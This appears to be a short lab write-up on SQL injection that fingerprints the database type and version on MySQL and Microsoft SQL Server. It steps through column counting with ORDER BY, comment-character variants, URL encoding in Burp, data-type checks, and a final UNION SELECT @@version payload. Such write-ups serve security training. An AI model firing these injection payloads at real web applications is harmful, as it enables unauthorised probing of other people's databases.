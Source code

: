 # Database type and version on MYSQL and Microsoft

query for version checking  version

```sql
select @@version
```

end goal : database type and version

```sql
' union select @@version 
```

this query resulted in internal server error

lets try to find out the number of columns

```sql
' order by 1-- // this comment sequence is not allowed here 
```

try some other methods for comment and always take space after comments

```sql
#
---
/**/
```

lets go with hash

```sql
' order by 1#
' order by 2#
```

got two columns , here we need to encode our query in url encode

for that if you are in burp select the query and press **ctrl+u** or online url encoder

Data types check

```sql
' union select 'a','a'# 
```

both column contains text

payload

```sql
' union select @@version, NULL# 
```
